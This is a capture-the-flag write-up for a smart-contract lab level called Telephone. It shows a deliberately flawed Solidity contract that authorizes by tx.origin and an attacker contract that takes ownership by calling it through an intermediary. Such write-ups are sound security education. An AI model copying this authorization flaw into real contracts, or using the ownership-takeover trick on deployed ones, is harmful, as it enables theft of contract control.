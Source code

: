 # Telephone

> Claim ownership of the contract below to complete this level.
> Things that might help
> See the Help page above, section "Beyond the console"

```solidity
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

The challenge is basically asking you to find a way to call `changeOwner` with your address in a way that `tx.origin` differs from `msg.sender`.

If we call a method from a contract A which calls some method from another contract B, the contract B will see our address as `tx.origin` and A's address as `msg.sender`.

As the `"Things that might help"` suggested, we need to deploy a contract:

```solidity
pragma solidity ^0.4.18;

contract Telephone {
  function changeOwner(address _owner) public;
}

contract Caller {
    Telephone k;

    constructor(address victim) public {
        k = Telephone(victim);
        k.changeOwner(msg.sender);
    }

}

```

Note we're using Solidity `0.4.18` and constructors now have their own keyword. :)

We set `victim` to our instance's address and deploy the contract, changing the owner. We can check the owner with `await contract.owner()` while the transaction gets processed.


